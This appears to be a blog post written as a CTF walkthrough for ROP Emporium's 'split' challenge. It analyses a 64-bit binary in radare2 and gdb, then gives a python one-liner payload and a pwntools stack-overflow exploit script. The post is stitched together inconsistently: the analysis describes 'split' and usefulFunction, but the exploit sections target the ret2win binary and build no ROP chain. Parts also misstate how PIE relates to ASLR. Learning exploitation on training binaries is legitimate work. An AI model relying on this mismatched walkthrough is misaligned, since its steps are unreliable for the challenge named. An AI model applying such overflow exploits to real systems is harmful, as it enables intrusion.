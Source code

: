 ```yaml
---
layout: post
title:  "ROP Emporium - split"
date:   2020-05-8 14:07:19
categories: [ROP]
excerpt: "Doing these challenges to improve my binary exploitation skills and teach my self Return oriented programming (ROP). These challenges use the usual CTF objective of retrieving the contents of a file named flag.txt from a remote machine by exploiting a given binary"

comments: true
---
```



## Introduction
Second challenge from ROP Emporium, in this we are going to write a small ROP chain.In previous challenge i only used GDB, in this im going to use radare2, an RE tool.

###### Challenge Description 
Combine elements from the ret2win challenge that have been split apart to beat this challenge. Learn how to use another tool whilst crafting a short ROP chain. 

###### About the Binary:
Our binary is usual ELF executable in 64-bit architecture.Lets analyze the binary to check the protection using rabin2, which comes with radare2 framework.

![source-01](/img/Screenshot_2020-05-13_12-32-28.png){: .align-left}


PIE isn't enabled so the binary will be loaded at a fixed location into memory (0x400000) everytime. With nx set to true, we know shellcode cannot be executed off the stack and we know binary has ASLR disabled.

## Analyzing the 64bit ELF binary
Lets load the binary with radare2 and dump the functions.I switched to radare2 from GDB, just the sacke of learning the tool. Radare2 is a free RE tool.

![source-01](/img/Screenshot_2020-05-13_08-41-16.png){: .align-left}


Here we can see interesting functions:
- main()
- pwnme()
- usefulFunction()

So lets see what these fucntions does!

###### main():


![source-01](/img/Screenshot_2020-05-13_08-44-57.png){: .align-left}


The only interesting thing here for us is, its calling a function name pwnme()other than that it is reading some user input using fget()

###### pwnme():


![source-01](/img/Screenshot_2020-05-13_08-48-45.png){: .align-left}


Just like in retwin challenge, we have a 32 byte buffer that can be overflowed with fgets that takes 96 characters from the user.


###### usefulFunction()


![source-01](/img/Screenshot_2020-05-13_08-34-01.png){: .align-left}


This function call system with /bin/cat flag.txt, so we need to return to this function to exploit the binary successfuly. 


## Fuzzing:
So now the binary analysis is out of the way. Lets start fuzzing the binary.
Run the program and send more than 40 bytes
```

➜  ret2win ./ret2win      
ret2win by ROP Emporium
64bits
> AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAaa
[5]    74490 segmentation fault  ./ret2win

```
As expected the program segfaulted (crashed),we have a valid crash scenario here,but we are not sure if we have overwritten any registers.So lets attach the binary to gdb and analyze the crash.

Attach the binary to GDB using gdb -q return2win

###### Calculating offset
Generate cylic pattern and send to the program
```
gef➤  pattern create 100
[+] Generating a pattern of 100 bytes
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa
[+] Saved as '$_gef0'
```
Copy past the generated pattern to the program


![source-01](/img/Screenshot_2020-05-09_11-20-57.png){: .align-left}


The program has crashed and we have overwritten the rsp,to find the extact offset copy the hex at rsp to the clipboard, then type pattern offset.


![source-01](/img/Screenshot_2020-05-09_11-23-21.png){: .align-left}


## Exploiting:

We have 40 bytes to fill the stack and then we need to put the address of the ret2win function.So that the saved return address will contain the address of the ret2win function (0x400811), and the program  execute the function.

The exploit then will look as follows:

**Payload: 

The payload will be very simple, just our junk and return address, when writting return address keep an eye for endianess.

[40 chars of junk] + [address of ret2win]  "A"*40             + "\x11\x08\x40"

**Here is my final exploit:

> python -c 'print "\x90"*40 + "\x11\x08\x40\x00\x00\x00\x00\x00"' | ./ret2win


![source-01](/img/Screenshot_2020-05-09_15-53-55.png){: .align-left}



Putting it all together,and i developed the final exploit with pwntools (python library) just for fun and learning.

```python

#!/usr/bin/python                                                              
 from pwn import *                                                              
 def main():                                                                    
     context.log_level = "info"                                                 
     elf = ELF('./ret2win')                                                     
     info(elf.symbols.ret2win)                                                  
     p = process(elf.path)                                                      
     ret2win = p64(elf.symbols.ret2win)                                         
     payload = b"A"*40 + ret2win                                                
     p.sendline(payload)                                                        
     p.recvuntil("Here's your flag:")                                           
     flag = p.recvline()                                                        
     success(flag)                                                              
 if __name__== "__main__":                                                      
     main()    
```

![source-01](/img/Screenshot_2020-05-09_16-20-05.png){: .align-left}


w00t we got the flag!

###### End 

Thats the end of ret2win challenge,it is a very simple one but as i progress through the challenges the exploits will become more complex and fun. Remember never stop learning, Cheers!.

> Code for this challenge  https://github.com/d3b4g/ROP-Emporium



